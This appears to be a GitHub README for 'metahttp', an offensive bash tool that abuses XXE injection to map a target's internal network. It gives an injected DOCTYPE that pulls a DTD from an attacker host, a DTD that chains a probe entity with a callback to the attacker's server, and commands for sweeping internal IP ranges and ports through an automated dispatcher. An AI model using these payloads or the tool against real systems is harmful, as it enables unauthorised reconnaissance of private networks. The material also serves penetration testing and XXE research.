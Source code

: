 # metahttp

A bash script that automates the scanning of a target network for HTTP resources through XXE

<p align="center">
  <img width="680" src="img/meta.gif"/>
</p>

## How it works

Initially the script waits for the target application to load the DTDs from the HTTP server it hosts.

Next the attacker triggers the XXE on the target server by submitting for example the following XML:
```xml
<!DOCTYPE r SYSTEM "http://attacker_host/serveme.dtd"><r></r>
```

The script receives the request and responds with the following DTD:
```xml
<!ENTITY % test_target SYSTEM '${target_protocol}://${target_ip}:${target_port}${target_path}'>
<!ENTITY % callback SYSTEM 'http://${server_hostname}:${http_callback_port}/${callback_path_prefix}${target_ip}_${target_port}'>
<!ENTITY % trigger '%test_target;%callback;'>
%trigger;
```

After receiving the DTD, the XML parser will attempt to substitute the `trigger` parameter entity with its value.
The `trigger` parameter entity includes both `test_target` and `callback`. Now here we depend on the fact that XML parsers will normally process the parameter entities one by one. In case the substitution of an entity fails, they will not proceed with the substitution of the subsequent entities. So now, if we receive a callback to our server, it means that the `callback` parameter entity was attempted to be substituted which with its turn means that the resource pointed by the `test_target` exists.

The above procedure is repeated for all the provided hosts/ports. Since there might be a big number of hosts/ports combinations, the step where the attacker has to trigger the XXE on the target server is automated  through the use of the "dispatcher". The dispatcher is an executable passed to metahttp through the -x option and is responsible for triggering the XXE on the target server. Couple of examples are provided in the dispatcher_examples folder.

Finally it is noted that the script currently depends on the underlying XML parser processing external DTDs and entity substitutions but it should be possible to be adjusted to different XXE scenarios.

## Usage
1. Local testing with a Java app on docker:
```bash
./metahttp.sh -T <(echo dockerhost) -p 80 -x ./dispatcher_examples/docker_java.sh -a /
```

2. Scanning the internal network of a target:
```bash
./metahttp.sh -t 10.10.0.0/24,10.20.0.0-10.20.0.15 -p 80,8000-8080,8983 -x ./dispatcher_examples/target_curl.sh -a /path/to/a/unique/resource
```

3. More information on the options
```bash
./metahttp.sh --help
```
